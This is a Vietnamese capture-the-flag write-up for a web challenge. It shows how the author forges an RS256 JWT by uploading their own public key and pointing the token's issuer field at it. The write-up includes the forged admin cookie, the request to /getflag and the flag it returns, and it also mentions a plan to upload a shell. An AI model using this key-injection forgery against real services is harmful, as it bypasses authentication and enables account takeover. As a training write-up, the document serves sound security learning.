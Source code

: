## JWT Token

Adrress: http://172.104.49.143:1574/

Đăng nhập với username một cách bình thường là `admin` :)))

![image](https://user-images.githubusercontent.com/93431512/193450231-a8541ebb-04b1-4385-9f3c-940cc067e9cb.png)

Và cũng như một cách bình thường khác ta upload file

![image](https://user-images.githubusercontent.com/93431512/193450277-04df90a0-2892-4796-8519-bf050d271189.png)

Quay trở lại trang `/` ta thấy có danh sách 1 số file đã up và nó có dạng `website/uploads/<username>/<filename>'

![image](https://user-images.githubusercontent.com/93431512/193450313-52fc3f5b-ae2e-4e0d-8152-85de4d99a103.png)

Ở đây mình nghĩ ngay đến việc up shell và ghi `hacked by tronghieu220403` nhưng mà mãi k payload được nên nghĩ cách khác =)))

Để ý lại history có cái getflag.js mình vào thử

![image](https://user-images.githubusercontent.com/93431512/193450418-6423eabe-25d7-4946-a5ad-feedd95d045b.png)

Đoạn Javascript của nó:
```Javascript
function getFiles(){
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "getflag", true);
    xhr.onload = function() {
        if (xhr.status === 200) {
            var flag = xhr.responseText.split("\n");
            var html = "";
            if (flag.length > 0) {
                    html += "<li>" + flag + "</li>";
                }
            document.getElementById("flag").innerHTML = html;
        } else {
            alert("Error: " + xhr.status);
        }
    }
    xhr.send();
}
```

Mình có check `./getflag` thì

![image](https://user-images.githubusercontent.com/93431512/193450478-3f939786-770a-4554-a11e-badb6f104b1b.png)

Check Request kiểm tra Cookie:
```
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9zdGF0aWMva2V5cy5wdWIifQ.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6ZmFsc2V9.KnO6VyVQ12jQ1uSJ8DmbxHDjMWi1-qkwx_EoVGmcpVJaP8E5g_YSl5t30Ij6cQQVFlfjMjJB0OFWm3rJtGcxvzcqgHRBZcPEPnoSPVgtq7GEa9VtsyjRYSMl7oUeiOJrnC0PifPt8KeAZRO43ZNnARULOxGH2Ntmqx6I7is4nPY1rkuz09_FxNMgiZ07gx8CBkKs7F8tNTqsIIWgEXVNFxB9QNlUokoxLjbr85muEz48-rpzqL74sKYA_pvhiwh7IoCRVg5WWrXUTEUIiA-tpX6q-CaImSSUtYL7CEw17O22hEggLwNrXBsJ17ApyaYkbU99ucB9HfMFqwdCBxudUBMagJihGLQe2w3wj_HJiYliIjdAk88l270Yjtm42OoeVW6Pf2XSR-d3ygjvNjjyxv2mBt6_443vx9nPTZ8TjA28mxGvRTs1nRHHmvDDpOLGT5WW6yApvRGoulFEsvrQdmKxPW3udGAy-xfVOjkWe_b7OaY2O4sFLKklR23Dz37H
```

Đây là JWT Cookie (Đề bài là JWT Token mà), sử dụng [JWT Tool](https://token.dev)

![image](https://user-images.githubusercontent.com/93431512/193450654-e6e9ca57-a3fe-43f1-9dd9-101e5893d829.png)

Như vậy muốn có flag ta cần đổi giá trị `approve` thành `True` 

Nhưng mà mọi việc đâu dễ thế, ta cần đổi giá trị nhưng mà vẫn phải thỏa mãn Signature RS256

**Exploit:** Mình có thể tải xuống Pubkey và tìm trở lại PrivateKey, nhưng mà điều đó sẽ rất khó, cái gì khó quá thì bỏ qua :vvv

Vậy nếu như mình thay Pubkey thì sao nhỉ :)? rất hay trên trang Token.dev có sẵn Private và Public từ Template, sử dụng key đó luôn, bằng cách upload file pub mới lên

![image](https://user-images.githubusercontent.com/93431512/193451020-685bb621-4436-49d6-aab1-322c18dc6db5.png)

Vậy ta đã có token mới, let's check :))

```Request
GET /getflag HTTP/1.1
Host: 172.104.49.143:1574
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC91cGxvYWRzL2FkbWluL2hpaGkudHh0In0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6dHJ1ZX0.2y8teT0Yu5YlRuencanFDXbmvDkdbfgZVbtsfzCRlcBZSPtMNN0Y8dmR5yumoYPrR5SJbyDE454Sewai_nW_q7FYm0a-hrW4GdxcWvnFYNkNq-58_1NJ6XKjGUZiT89lNpMKevvYvbcEiO1fspg_10Pu9_T7PBsRw2KeXC_Vl1TuNSL5xKzdFiLxRdKdOr33QkoWqe0k4S_rp6jcbXlz2AMITcDDT5E8nWzvkPSycSke6klJGyN2Mf1H7CPzTN96d90m3fhbzKkf5a82jPo4R1IGth2b0fFLTMhCRHmhmX5k3gRswWkwZvLxiRmGy6Svtras6ldRWDMzIrhADujY1Q
Connection: close
```

```Response
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.10.5
Date: Sun, 02 Oct 2022 11:12:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 44
Connection: close

FLAG: Flag{JWT_token_is_the_best_token_ever}
```











